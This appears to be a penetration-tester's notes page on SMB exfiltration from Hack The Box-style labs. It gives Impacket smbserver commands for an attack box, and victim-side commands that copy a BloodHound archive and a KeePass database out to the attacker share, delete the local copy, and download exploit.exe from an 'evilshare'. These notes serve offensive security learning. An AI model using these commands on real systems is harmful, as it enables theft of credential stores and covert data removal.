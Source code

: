 # Exfiltration

## SMB

Using smbserver.py on the attack box

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~/htb$ smbserver.py share . -smb2support -username df -password df
/usr/lib/python3/dist-packages/pkg_resources/__init__.py:116: PkgResourcesDeprecationWarning: 1.16.0-unknown is an invalid version and will not be supported in a future release
  warnings.warn(
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed                                                                                                                                                                                                                      
[*] Config file parsed 
```
{% endcode %}

On the victim side:

{% code title="" overflow="wrap" lineNumbers="true" %}
```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use \\10.10.16.12\share /u:df df
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20220208134327_BloodHound.zip \\10.10.16.12\share\
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> del 20220208134327_BloodHound.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use /d \\10.10.16.12\share
\\10.10.16.12\share was deleted successfully.


```
{% endcode %}

### Copy file from victim to attack box

On attack box using impacket

{% code title="On attack box using impacket-smbserver" overflow="wrap" lineNumbers="true" %}
```
impacket-smbserver shared /home/kali/shared -smb2support -username jason -password lab
```
{% endcode %}

On Victim box

{% code title="From PS " overflow="wrap" lineNumbers="true" %}
```
Powershell:> copy .\Documents\Database.kdbx \\192.168.122.139\shared\Database.kdbx
```
{% endcode %}

### Using SMB

1. `Start evilshare with where you want to upload files from -`&#x20;
   1. `sudo smbserver.py evilshare .`
2. `net view \\10.10.16.13`
3. `dir \\10.10.16.13\EVILSHARE`
4. `copy \\10.10.16.13\EVILSHARE\exploit.exe exploit.exe`
